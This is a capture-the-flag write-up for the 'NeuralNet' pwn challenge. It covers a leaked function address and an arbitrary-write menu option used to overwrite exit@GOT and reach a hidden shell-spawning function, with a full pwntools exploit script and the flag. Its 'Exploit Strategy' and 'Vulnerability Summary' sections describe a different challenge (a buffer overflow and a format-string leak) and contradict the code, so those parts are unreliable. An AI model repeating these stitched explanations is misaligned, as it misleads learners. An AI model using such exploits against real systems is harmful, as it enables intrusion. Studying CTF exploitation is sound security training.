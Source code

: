 # NeuralNet - Writeup

---

## Challenge Description

![Alt text](img/1.png)

---

## Exploit Demo

This demo shows the exploitation flow:

![Alt text](gif/NeuralNet.gif)

---

## Challenge Summary

The Neural Net Simulator binary provides a menu-driven interface with several functions, including a debug option that allows arbitrary memory writes by letting the user overwrite a "neuron" address with a new value. The program leaks the address of the predict_outcome function at startup, enabling us to calculate the base address of the binary.

The exploit involves using this leak to compute the binary’s base address and then overwriting the exit() entry in the Global Offset Table (GOT) with the address of the hidden unlock_secret_research_data() function. By selecting option 4 (Exit), the program will call this overwritten GOT entry, granting shell access via system("/bin/sh").

## Binary Information

```bash
$ file NeuralNet
```

![Alt text](img/2.png)

```bash
$ checksec NeuralNet
```

![Alt text](img/3.png)

---

## Static Analysis (IDA pro)

### Key Functionality

```c
printf("Prediction module address (predict_outcome): %p\n", predict_outcome);
```

[Alt text](img/4.png)

- The program prints the address of `predict_outcome`, which leaks a code pointer and allows calculation of the **binary base address**.

```c
scanf("%lx", &v5);
scanf("%lx", &v4);
*v5 = v4;  // Arbitrary write
```

[Alt text](img/5.png)

- Option 3 ("Neural Intervention") allows the user to write any 64-bit value to any memory address, creating an **arbitrary write primitive**.

```c
if (v3 == 4) {
    exit(0);
}
```

[Alt text](img/6.png)

- Choosing option 4 calls `exit()`. If the GOT entry of `exit()` is overwritten with a custom function like `unlock_secret_research_data()`, it will be executed.

### Hidden Function

```c
int unlock_secret_research_data() {
    return system("/bin/sh");
}
```

[Alt text](img/7.png)

- This hidden function spawns a shell and is not reachable during normal execution. Triggering it requires **overwriting `exit@GOT`** to point to it.

---

## Exploit Strategy

### Step 1: Overflow the Buffer

We exploit the buffer overflow by sending input larger than 32 bytes, overwriting the **return address** and controlling the **RIP** to redirect execution to the `win()` function.

### Step 2: Call `step1()` and `step2()`

After redirecting execution to `win()`, we must:

- Call `step1()` to set `first = 1`.
- Call `step2()` to set `second = 1`.

### Step 3: Trigger the Flag

Once both `first` and `second` are set, the `win()` function will print the flag stored in the `FLAG_VAL` environment variable.

---

## Exploit Code

```python
#!/usr/bin/env python3
# -*- coding: utf-8 -*-
# This exploit template was generated via:
# $ pwn template NeuralNet --host ctf.mf.grsu.by --port 9076
from pwn import *

# Set up pwntools for the correct architecture
exe = context.binary = ELF(args.EXE or 'NeuralNet')

# Many built-in settings can be controlled on the command-line and show up
# in "args".  For example, to dump all data sent/received, and disable ASLR
# for all created processes...
# ./exploit.py DEBUG NOASLR
# ./exploit.py GDB HOST=example.com PORT=4141 EXE=/tmp/executable
host = args.HOST or 'ctf.mf.grsu.by'
port = int(args.PORT or 9076)

# Use the specified remote libc version unless explicitly told to use the
# local system version with the `LOCAL_LIBC` argument.
# ./exploit.py LOCAL LOCAL_LIBC
if args.LOCAL_LIBC:
    libc = exe.libc
elif args.LOCAL:
    library_path = libcdb.download_libraries('libc.so.6')
    if library_path:
        exe = context.binary = ELF.patch_custom_libraries(exe.path, library_path)
        libc = exe.libc
    else:
        libc = ELF('libc.so.6')
else:
    libc = ELF('libc.so.6')

def start_local(argv=[], *a, **kw):
    '''Execute the target binary locally'''
    if args.GDB:
        return gdb.debug([exe.path] + argv, gdbscript=gdbscript, *a, **kw)
    else:
        return process([exe.path] + argv, *a, **kw)

def start_remote(argv=[], *a, **kw):
    '''Connect to the process on the remote host'''
    io = connect(host, port)
    if args.GDB:
        gdb.attach(io, gdbscript=gdbscript)
    return io

def start(argv=[], *a, **kw):
    '''Start the exploit against the target.'''
    if args.LOCAL:
        return start_local(argv, *a, **kw)
    else:
        return start_remote(argv, *a, **kw)

# Specify your GDB script here for debugging
# GDB will be launched if the exploit is run via e.g.
# ./exploit.py GDB
gdbscript = '''
tbreak main
continue
'''.format(**locals())

#===========================================================
#                    EXPLOIT GOES HERE
#===========================================================
# Arch:     amd64-64-little
# RELRO:      Partial RELRO
# Stack:      No canary found
# NX:         NX enabled
# PIE:        PIE enabled
# RUNPATH:    b'./'
# Stripped:   No

io = start()

# shellcode = asm(shellcraft.sh())
# payload = fit({
#     32: 0xdeadbeef,
#     'iaaa': [1, 2, 'Hello', 3]
# }, length=128)
# io.send(payload)
# flag = io.recv(...)
# log.success(flag)

io.recvuntil(b'Prediction module address (predict_outcome): ')
exe.address = int(io.recvline().strip(),16) - exe.symbols['predict_outcome']
log.success(f"exe.address : {hex(exe.address)}")

exit_got = exe.got['exit']
ret2win = exe.symbols['unlock_secret_research_data']
io.sendline(b'3')
io.sendline(hex(exit_got).encode())
io.sendline(hex(ret2win).encode())
io.sendline(b'4')
io.sendline(b'cat flag.txt')
io.recvuntil(b"You've gained root access to the main dataset server.")
io.recvline()
flag = io.recvline().strip()
log.success(f"FLAG : {flag.decode()}")

```

---

## Exploit Output

![Alt text](img/8.png)

---

## Vulnerability Summary

- **Format string vulnerability** allows leaking memory using `%p` and `%s`.
- The leaked memory provides the **address of the `FLAG_VAL` environment variable**.
- By reading the leaked address, we can **extract the flag**.

---

## Flag

```
grodno{p3R3D08UchIL_n3ir053t_prY4M0_v_G0T}
```
